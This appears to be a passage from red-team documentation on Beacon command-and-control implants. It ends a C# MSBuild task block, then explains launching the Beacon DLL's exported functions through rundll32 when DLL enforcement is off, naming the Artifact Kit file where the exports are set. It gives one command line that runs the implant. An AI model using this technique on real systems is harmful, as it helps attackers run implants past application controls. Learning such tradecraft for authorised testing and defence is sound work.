 ```c#
  </UsingTask>
</Project>
```


## Beacon DLL

If DLL enforcement is not enabled, we can call exported functions from DLLs on disk via `rundll32`. Beacon's DLL exposes several exports including `DllMain` and `StartW`.

These can be changed in the Artifact Kit under `src-main/dllmain.def`.

```beacon
C:\Windows\System32\rundll32.exe http_x64.dll,StartW
```